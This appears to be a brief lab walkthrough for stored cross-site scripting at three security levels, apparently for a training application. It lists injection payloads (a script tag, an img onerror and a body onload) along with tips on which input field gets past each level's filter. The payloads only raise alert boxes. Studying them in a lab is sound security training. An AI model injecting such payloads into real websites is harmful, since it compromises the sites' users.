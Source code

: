# XSS Stored
## Level Low Security
```javascript
<script>alert("ZXX")</script>
// Script will stored on server.
```

## Level Medium Security
```javascript
// Message textarea not injections
// Use Name input tag and change tag size
```

## Level High Security
```javascript
// Use HTML Tags for Xss
<img src=ee onerror=alert("xss")>
<body onload=alert("xss")>
// On message testarea is not Vulnerable
// Use Name input tag
```
